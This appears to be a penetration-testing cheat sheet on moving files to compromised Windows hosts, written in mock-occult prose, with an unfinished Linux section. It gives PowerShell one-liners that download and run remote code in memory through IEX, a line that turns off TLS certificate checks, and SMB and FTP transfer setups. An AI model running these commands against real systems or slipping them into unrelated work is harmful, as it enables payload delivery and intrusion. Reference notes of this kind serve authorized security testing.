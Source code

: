 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
  <summary><strong>Windows</strong></summary>

---

  <details>
    <summary><strong>PowerShell DownloadFile Method</strong></summary>

  Sync  
  ```powershell
  (New-Object Net.WebClient).DownloadFile('<FILE URL>','<OUTPUT FILE>')
  ```

  Async  
  ```powershell
  (New-Object Net.WebClient).DownloadFileAsync('<FILE URL>','<OUTPUT FILE>')
  ```
  </details>

  <details>
    <summary><strong>PowerShell DownloadString - Fileless Method</strong></summary>

  Defaulr  
  ```powershell
  IEX (New-Object Net.WebClient).DownloadString('<FILE URL>')
  ```

  Pipeline input  
  ```powershell
  (New-Object Net.WebClient).DownloadString('<FILE URL>') | IEX
  ```
  </details>

  <details>
    <summary><strong>PowerShell Invoke-WebRequest</strong></summary>

  Default  
  ```powershell
  Invoke-WebRequest <FILE URL> -OutFile <OUTPUT FILE>
  ```

  ByPass Internet Explorer Error  
  ```powershell
  Invoke-WebRequest <FILE URL> -UseBasicParsing | IEX
  ```

  ByPass SSL/TLS Error  
  ```powershell
  [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
  # Command to download the file
  ```

  </details>

  <details>
    <summary><strong>SMB Downloads</strong></summary>

  **Default**
  
  Create the SMB Server in Linux
  ```bash
  sudo impacket-smbserver share -smb2support /tmp/smbshare
  ```
  Download using CMD in Windows
  ```cmd
  copy \\<IP>\share\<FILE>
  ```
  
  **Using credentialts**

  Create the SMB Server in Linux
  ```bash
  sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
  ```
  Mount the SMB Server in Linux
  ```cmd
  net use n: \\<IP>\share /user:<USER> <PASSWORD>
  copy n:\<FILE>
  ```

  </details>

<details>
    <summary><strong>FTP Downloads</strong></summary>  
    
  **Upload file**  
  
  Setting up a Python3 FTP Server in Linux
  ```bash
  sudo pip3 install pyftpdlib
  sudo python3 -m pyftpdlib --port 21
  ```

  **Option 1: Download file using Powershell**
  ```powershell
  (New-Object Net.WebClient).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<OUTPUT FILE>')
  ```

  **Option 2: Download file using CMD**  
  
  Create a Command File for the FTP Client and Download the Target File
  ```cmd
  echo open <IP> > ftpcommand.txt
  echo USER anonymous >> ftpcommand.txt
  echo binary >> ftpcommand.txt
  echo GET <FILE> >> ftpcommand.txt
  echo bye >> ftpcommand.txt
  ftp -v -n -s:ftpcommand.txt
  ```
  Once in FTP...
  ```cmd
  open <IP>
  USER anonymous
  GET <FILE>
  bye
  ```
  Back in CMD...
  ```cmd
  more <FILE>
  ```
  
  

  </details>
</details>

---

<details>
  <summary><strong>Linux</strong></summary>

---

  <details>
    <summary><strong>TITLE</strong></summary>

    Contenido del subtema Linux.
  </details>

---
</details>
